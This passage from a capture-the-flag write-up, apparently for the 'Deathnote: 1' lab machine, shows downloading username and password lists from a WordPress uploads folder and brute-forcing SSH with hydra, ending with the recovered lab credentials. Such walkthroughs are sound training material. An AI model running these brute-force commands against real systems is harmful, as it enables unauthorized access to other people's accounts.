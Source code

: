 Mmh there is a folder index "2021", what is inside? there are 3 dirs, last one is empty, second one the same, BINGO the first one contains something. Interesting a file called user.txt and one called notes.txt, maybe some of these combinations enable us access trough [SSH](#d01fe6)?

<a id="Stage-4,-Break-In-Privilege-Escalation"></a>
## Stage 4, Break In & Privilege Escalation

1. [Hydra Brute-force](#Hydra-Brute-force)
2. [SSH LOG IN](#SSH-LOG-IN)
3. [Privilege Escalation or Sherlock Holmes time](#Privilege-Escalation-or-Sherlock-Holmes-time)

<a id="Hydra-Brute-force"></a>
### Hydra Brute-force

Let download those files.

```bash
wget http://192.168.1.60/wordpress/wp-content/uploads/2021/07/notes.txt
```

```bash
wget http://192.168.1.60/wordpress/wp-content/uploads/2021/07/user.txt
```

And now let use [hydra](https://gitlab.com/kalilinux/packages/hydra) for brute-forcing our access through SSH.

```bash
hydra -L user.txt -P notes.txt ssh://192.168.1.60
```

- **-L** argument specify the users word-list
- **-P** argument specify the passwords word-list

After two minutes approximately it should produce an output like this.

![](https://github.com/IadRabbit/CTF-S-Write-UPs/raw/main/Deathnote:%201/hydra_brute_like.png)

>Why the IP now is **192.168.1.173**? It happens when a machine ask for a new IP and the DHCP server assign a new one. But this doesn't change anything, don't worry.

>If you like GUI **xhydra** is your friend.

BOOM BABY.

- The user is **l**
- The password is **death4me**
